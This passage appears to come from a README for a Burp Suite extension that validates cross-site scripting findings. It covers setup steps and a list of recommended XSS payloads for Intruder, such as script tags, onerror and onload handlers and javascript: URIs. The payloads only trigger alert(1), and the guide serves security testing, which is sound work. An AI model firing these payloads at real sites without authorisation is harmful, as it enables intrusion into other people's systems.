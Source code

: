 ### Step 2: Load Burp Extension

1. Open Burp Suite
2. Go to **Extensions** → **Installed** → **Add**
3. Select **Python** and load: `burp-extension/ModernXSSValidator.py`

### Step 3: Configure Extension

1. Go to the **"XSS Validator"** tab in Burp
2. Set **Host**: `127.0.0.1`
3. Set **Port**: `8093`
4. Click **"Test Connection"**
5. You should see: ✅ **Connection successful!**

### Step 4: Enable Auto-Testing

1. Check **"Auto-test responses"**
2. Select browsers: **Chromium**, **Firefox** (recommended)
3. Set **Confidence Threshold**: `0.5`

### Step 5: Start Testing!

1. Use Burp **Intruder** with XSS payloads
2. Watch the **"Results"** tab for real-time detection
3. Enjoy enhanced XSS detection! 🎉

## 🧪 **Testing XSS Payloads**

### Recommended Payloads for Intruder:

```html
<script>alert(1)</script>
<img src=x onerror=alert(1)>
<svg onload=alert(1)>
"><script>alert(1)</script>
'><script>alert(1)</script>
javascript:alert(1)
<iframe src="javascript:alert(1)">
<body onload=alert(1)>
<input onfocus=alert(1) autofocus>
<details open ontoggle=alert(1)>
<marquee onstart=alert(1)>
<audio src=x onerror=alert(1)>
```

### Manual Testing:

```bash
# Test a specific payload
npm run test:burp

# Check server status
npm run status

# View real-time logs
npm run logs --follow
```
